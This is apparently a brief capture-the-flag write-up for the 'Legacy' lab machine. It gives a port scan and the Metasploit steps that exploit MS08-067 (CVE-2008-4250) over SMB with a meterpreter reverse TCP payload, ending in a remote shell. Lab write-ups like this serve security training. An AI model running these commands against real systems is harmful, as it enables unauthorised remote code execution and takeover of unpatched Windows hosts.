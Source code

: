 # Legacy Write-Up

Easy

Tags: 
`Easy`
`External`
`Network`
`SAMBA`
`Penetration Tester Level 2`
`Remote Code Execution`
`CVE-2008-4250`
`Public Vulnerabilities`
`CVE Exploitation`

## Intro

1. Use exploit/windows/smb/ms08_067_netapi

## Exploit

### Port scanning

```
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server
```

Microsoft Windows Server - Code Execution (MS08-067)

```
use exploit/windows/smb/ms08_067_netapi
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

rhosts, lhost, lport > run

```
meterpreter > shell
```